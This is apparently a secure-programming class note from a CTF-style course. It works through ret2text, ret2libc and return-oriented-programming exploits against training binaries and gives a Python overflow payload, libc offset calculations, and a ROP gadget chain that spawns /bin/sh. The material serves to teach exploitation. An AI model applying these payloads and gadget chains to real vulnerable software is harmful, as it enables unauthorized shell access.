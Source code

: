 ====================
 Secure Programming
====================

:date: 2014-11-04 18:55
:tags: secprog, ctf, return-oriented-programming
:category: note
:slug: secure-programming-20141104
:authors: Zespre Schmidt
:about_author: Bug generator
:email: starbops@gmail.com
:summary: 2014/11/04 Secure Programming Class Note

foo_4
=====

Training for "return to text" attack.

binsh: 0x0804a030
system: 0x080483e0

``print 'a'*24 + '\xe0\x83\x04\x08' + 'aaaa' + '\x20\x86\x04\x08'``


foo_5
=====

Training for "return to libc" attack.

Notice: libc.so is provided

``$ objdump -d libc.so``
00019970 <__libc_start_main>:
0003fc40 <__libc_system>:
offset: 262d0

Example:
Function: libc_start_main's address is :  0xf75f5970
Function: libc_system's address is : 0xf75f5970 + 0x262d0 = 0xf761bc40

``$ objdump -R foo_5``
0804a01c R_386_JUMP_SLOT   __libc_start_main

0804a02c <binsh>:
actual address: 08048620

foo_6
=====

Training for "return-oriented programming" attack.

int 0x80
eax: call what
ebx, ecx: arguments
remember the number of pops, smash the stack

Gadget 1
--------

first gadget: 0x080594ac
reset eax to 0 by XOR itself
value for ``pop ebx``: 0x080be568 (/bin/sh)
return address of first gadget: 0x0805cc5c

.. code-block:: text

    80594ac:       31 c0                   xor    eax,eax
    80594ae:       5b                      pop    ebx
    80594af:       c3                      ret

Gadget 2
--------

second gadget: 0x0805cc5c
garbage value for ``pop edi``: aaaa
return address of second gadget: 0x0805cc5c
repeat 11 times to make eax = 0x0000000b
last return address of second gadget: 0x0806f0e0

.. code-block:: text

    805cc5c:       40                      inc    eax
    805cc5d:       5f                      pop    edi
    805cc5e:       c3                      ret

Gadget 3
--------

third gadget: 0x0806f0e0

.. code-block:: text

    806f0e0:       cd 80                   int    0x80
    806f0e2:       c3                      ret

Failed Gadget
-------------

Program received signal SIGSEGV in 0x080db8ce. Still don't know why :(

.. code-block:: text

    80db8cd:       40                      inc    eax
    80db8ce:       02 af 0a 0e 0c 41       add    ch,BYTE PTR [edi+0x410c0e0a]
    80db8d4:       c3                      ret

Cannot use ``pop eax`` because 0x0000000b contains 00 which is null. It will
terminate the input string unexpectedly.

.. code-block:: text

    80e205d:  58                      pop    eax
    80e205e:  c3                      ret

